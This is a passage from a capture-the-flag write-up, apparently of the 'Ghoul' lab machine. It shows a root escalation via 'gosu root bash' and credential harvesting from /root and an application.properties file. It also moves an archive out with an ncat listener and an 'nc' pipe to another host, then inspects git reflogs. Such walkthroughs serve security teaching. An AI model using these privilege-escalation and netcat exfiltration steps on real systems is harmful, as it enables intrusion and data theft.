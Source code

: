 ![]({{ site.url }}{{ site.baseurl }}/assets/images/Ghoul/gosu_10.png)

So just running:

<pre>gosu root bash</pre>

allows to become root.

 Going into the /root folder I can see interesting information:

 ![]({{ site.url }}{{ site.baseurl }}/assets/images/Ghoul/root_12.png)

So we have new credentials :

**kaneki:12345ILoveTouka!!!**

I tried to log in into Gogs with those but there is only a gogstest report, totally empty and useless. Lets focus on the other file: **aogiri-app.7z**
After having downloaded it locally:

<pre>chmod 777 aogiri-app.7z
cp aogiri-app.7z /tmp
ncat -l -p 1234 -q 1 > aogiri-app.7z< /dev/null → on 172.18.0.200
cat aogiri-app.7z | nc 172.18.0.200 1234 → on 172.18.0.2
scp -P9000 -i id_rsa kaneki_pub@127.0.0.1:/tmp/aogiri-app.7z  ./aogiri-app.7z </pre>

I started looking at it closely. It is a git repository. Really interesting.
It seems that initially I found some creds but unfortunately useless :(

<pre>/src/main/resources# cat application.properties 
server.port=8080
spring.datasource.url=jdbc:mysql://172.18.0.1:3306/db
spring.datasource.username=kaneki
spring.datasource.password=jT7Hr$.[nF.)c)4C
server.address=0.0.0.0

spring.jpa.properties.hibernate.dialect = org.hibernate.dialect.MySQL5InnoDBDialect
spring.jpa.hibernate.ddl-auto = validate

spring.servlet.multipart.enabled=true
spring.servlet.multipart.file-size-threshold=2KB
spring.servlet.multipart.max-file-size=200MB
spring.servlet.multipart.max-request-size=215MB</pre>

As first we can look at it using common git commands, as log, show,branch etc.. but those are rabbit holes. Indeed, looking at the git logs we can see that there  is a remote git repository !

<pre>logs/refs/heads/master:0000000000000000000000000000000000000000 8b7452057fc35b5bd81a0b26a4bd2fe1220ab667 kaneki <kaneki@aogiri.htb> 1546062314 +0530    commit (initial): update readme
logs/refs/heads/master:8b7452057fc35b5bd81a0b26a4bd2fe1220ab667 bec96aaf334dc0110caa163e308d4e2fc2b8f133 kaneki <kaneki@aogiri.htb> 1546062622 +0530    commit: updated dependencies
logs/refs/heads/master:bec96aaf334dc0110caa163e308d4e2fc2b8f133 51d2c360b13b37ad608361642bd86be2a4983789 kaneki <kaneki@aogiri.htb> 1546062722 +0530    commit: added readme
logs/refs/heads/master:51d2c360b13b37ad608361642bd86be2a4983789 ed5a88cbbc084cba1c0954076a8d7f6f5ce0d64b kaneki <kaneki@aogiri.htb> 1546062881 +0530    commit: mysql support
logs/refs/heads/master:813e0a518064778343ba54b64e16ad44c19900fb b3752e00721b4b87c99ef58e3a54143061b20b99 kaneki <kaneki@aogiri.htb> 1546063447 +0530    commit: noro stop doing stupid shit
logs/refs/heads/master:b3752e00721b4b87c99ef58e3a54143061b20b99 e29ad435b1cf4d9e777223a133a5b0a9aaa20625 kaneki <kaneki@aogiri.htb> 1546063698 +0530    commit: added service
logs/refs/heads/master:e29ad435b1cf4d9e777223a133a5b0a9aaa20625 0d426b533d4f1877f8a114620be8a1294f34ab71 kaneki <kaneki@aogiri.htb> 1546064090 +0530    commit: update dependencies
logs/refs/heads/master:0d426b533d4f1877f8a114620be8a1294f34ab71 e29ad435b1cf4d9e777223a133a5b0a9aaa20625 kaneki <kaneki@aogiri.htb> 1546064281 +0530    reset: moving to HEAD^
logs/refs/heads/master:e29ad435b1cf4d9e777223a133a5b0a9aaa20625 0d426b533d4f1877f8a114620be8a1294f34ab71 kaneki <kaneki@aogiri.htb> 1546064622 +0530    reset: moving to 0d426b5
logs/refs/heads/master:0d426b533d4f1877f8a114620be8a1294f34ab71 b3752e00721b4b87c99ef58e3a54143061b20b99 kaneki <kaneki@aogiri.htb> 1546064718 +0530    reset: moving to b3752e0
logs/refs/heads/master:b3752e00721b4b87c99ef58e3a54143061b20b99 b43757dbbefdb3af3966fbd5ca273496180dc913 kaneki <kaneki@aogiri.htb> 1546064792 +0530    commit: added mysql deps